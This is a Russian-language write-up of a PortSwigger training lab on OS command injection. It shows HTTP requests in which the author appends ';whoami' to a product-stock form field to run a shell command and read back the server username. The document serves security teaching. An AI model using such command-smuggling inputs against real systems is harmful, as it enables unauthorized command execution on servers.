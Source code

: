 ```yaml
---
title: "OS command injection, simple case"
date: 2025-06-26
tags: [os_command_injection, writeup, web]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice/os-command-injection-apprentice/os-command-injection/lab-simple"
classes: wide
---
```


Эта лабораторная работа содержит уязвимость **OS command injection** в средстве проверки запасов продуктов. Приложение выполняет команду оболочки, содержащую предоставленные пользователем идентификаторы продуктов и магазинов, и возвращает необработанные выходные данные команды в своем ответе. Для решения лабораторной работы нужно выполнить команду `whoami`, чтобы определить имя текущего пользователя.

```
https://0a5b00a603434fb1819a20f7006900d6.web-security-academy.net
```

## Solution

Я вижу страницу с товарами. Попробую открыть страницу с одним из них:

![IMG](/assets/images/IMG_os_command_injection/IMG_OS_command_injection_simple_case/1.png){: height="200" .align-center}

Вижу, что в `URL` через `GET`-запрос с параметром `productId` получается страница товара. Попробую передать команду через него:

```
https://0a5b00a603434fb1819a20f7006900d6.web-security-academy.net/product?productId=1&whoami — никаких изменений
https://0a5b00a603434fb1819a20f7006900d6.web-security-academy.net/product?productId=1;whoami — ошибка
https://0a5b00a603434fb1819a20f7006900d6.web-security-academy.net/product?productId=1|whoami — ошибка
```

Так, нужно поискать другие варианты. Внизу есть кнопка `Check stock`. Она тоже отправляет запрос, попробую через нее:

![IMG](/assets/images/IMG_os_command_injection/IMG_OS_command_injection_simple_case/2.png){: height="200" .align-center}

Происходит это с помощью такого запроса:

```http
POST /product/stock HTTP/2
Host: 0a5b00a603434fb1819a20f7006900d6.web-security-academy.net
Cookie: session=LIlt9TToGmKZCdczt0P9x8a1VqWoAOb2
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a5b00a603434fb1819a20f7006900d6.web-security-academy.net/product?productId=1&whoami
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Origin: https://0a5b00a603434fb1819a20f7006900d6.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

productId=1&storeId=1
```

Заменю значение аргумента `storeId` на `1;whoami`:

```http
POST /product/stock HTTP/2
Host: 0a5b00a603434fb1819a20f7006900d6.web-security-academy.net
Cookie: session=LIlt9TToGmKZCdczt0P9x8a1VqWoAOb2
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a5b00a603434fb1819a20f7006900d6.web-security-academy.net/product?productId=1&whoami
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: https://0a5b00a603434fb1819a20f7006900d6.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

productId=1&storeId=1;whoami
```

Получил следующий ответ:

```http
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 16

62
peter-nYdkXe
```

`peter-nYdkXe` — это имя пользователя, а значит лаба решена.